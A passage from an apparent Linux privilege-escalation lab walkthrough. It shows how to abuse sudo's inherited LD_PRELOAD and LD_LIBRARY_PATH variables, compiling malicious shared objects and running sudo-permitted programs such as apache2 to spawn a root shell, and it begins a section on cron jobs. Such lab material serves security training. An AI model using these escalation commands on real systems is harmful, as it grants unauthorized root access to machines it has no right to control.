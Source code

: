 ```bash
sudo -l
```

LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at /home/user/tools/sudo/preload.c:

```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:

```bash
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

Run ldd against the apache2 program file to see which shared libraries are used by the program:

```bash
ldd /usr/sbin/apache2
```

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):

```bash
sudo LD_LIBRARY_PATH=/tmp apache2
```

A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.

## 8. Cron Jobs - File Permissions

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at /etc/crontab.

View the contents of the system-wide crontab:

```bash
cat /etc/crontab
```

There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.
